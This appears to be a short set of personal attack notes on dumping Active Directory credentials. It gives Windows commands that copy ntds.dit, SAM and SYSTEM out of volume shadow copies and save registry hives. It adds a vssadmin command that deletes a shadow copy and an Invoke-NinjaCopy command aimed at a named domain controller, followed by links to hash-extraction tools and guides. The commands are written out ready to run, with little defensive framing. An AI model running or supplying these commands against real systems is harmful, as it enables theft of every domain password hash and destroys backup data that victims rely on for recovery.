 copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy\[X\]\\windows\\ntds\\ntds.dit .  
copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy\[X\]\\windows\\system32\\config\\SYSTEM .  
copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy\[X\]\\windows\\system32\\config\\SAM .

reg SAVE HKLM\\SYSTEM c:\\SYS

#vssadmin delete shadows /for= \[/oldest | /all | /shadow=\] \[/quiet\]

vssadmin delete shadows /for=C: /shadow=e8eb7931-5056-4f7d-a5d7-05c30da3e1b3

\---- Alt Method -----

[https://github.com/clymb3r/PowerShell/tree/master/Invoke-NinjaCopy](https://github.com/clymb3r/PowerShell/tree/master/Invoke-NinjaCopy)

Invoke-NinjaCopy -Path “c:\\windows\\ntds\\ntds.dit” -ComputerName “RDLABDC02” -LocalDestination “c:\\temp\\ntds.dit”

  
\--- what to do with files ----

most successful> [https://blog.joelj.org/windows-password-audit-with-kali-linux/](https://blog.joelj.org/windows-password-audit-with-kali-linux/)  
had to use latest kali and files from [https://github.com/libyal/libesedb/archive/master.zip](https://github.com/libyal/libesedb/archive/master.zip) instead.

  
\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*  
\*\*\*\*\*\*  references  \*\*\*\*\*\*\*  
\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Exfiltration/NTFSParser/NTFSParser](https://github.com/PowerShellMafia/PowerSploit/tree/master/Exfiltration/NTFSParser/NTFSParser)  
[https://github.com/clymb3r/PowerShell/tree/master/Invoke-NinjaCopy](https://github.com/clymb3r/PowerShell/tree/master/Invoke-NinjaCopy)  
[https://clymb3r.wordpress.com/2013/06/13/using-powershell-to-copy-ntds-dit-registry-hives-bypass-sacls-dacls-file-locks/](https://clymb3r.wordpress.com/2013/06/13/using-powershell-to-copy-ntds-dit-registry-hives-bypass-sacls-dacls-file-locks/)  
[https://adsecurity.org/?p=2398](https://adsecurity.org/?p=2398)  
[https://github.com/quarkslab/quarkspwdump](https://github.com/quarkslab/quarkspwdump)  
[http://security.stackexchange.com/questions/48307/where-does-active-directory-store-user-hashes](http://security.stackexchange.com/questions/48307/where-does-active-directory-store-user-hashes)  
[https://adsecurity.org/?p=451](https://adsecurity.org/?p=451)  
[https://www.swordshield.com/2015/07/getting-hashes-from-ntds-dit-file/](https://www.swordshield.com/2015/07/getting-hashes-from-ntds-dit-file/)  
[https://www.dsinternals.com/en/dumping-ntds-dit-files-using-powershell/](https://www.dsinternals.com/en/dumping-ntds-dit-files-using-powershell/)  
https://blog.joelj.org/windows-password-audit-with-kali-linux/